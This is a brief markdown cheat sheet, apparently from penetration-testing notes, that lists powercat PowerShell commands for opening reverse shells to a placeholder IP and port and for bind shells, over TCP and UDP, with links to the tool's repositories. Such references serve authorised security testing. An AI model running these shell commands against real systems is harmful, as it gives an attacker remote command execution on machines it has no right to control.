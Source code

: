# Powercat

## 01 - Reverse shell

### 1.1 - TCP Method

```
PS C:\> powercat -c <IP> -p <PORT> -e <powershell.exe | cmd.exe>
```

### 1.2 - UDP Method

```
PS C:\> powercat -u -c <IP> -p <PORT> -e <powershell.exe | cmd.exe>
```

## 02 - Bind shell

### 2.1 - TCP Method

```
PS C:\> powercat -l -p <PORT> -e <powershell.exe | cmd.exe>
```

### 2.2 - UDP Method

```
PS C:\> powercat -u -l -p <PORT> -e <powershell.exe | cmd.exe>
```

---
## References

### Source Repository

- [besimorhino: Powercat](https://github.com/besimorhino/powercat)

- [secabstraction: PowerCat](https://github.com/secabstraction/PowerCat)
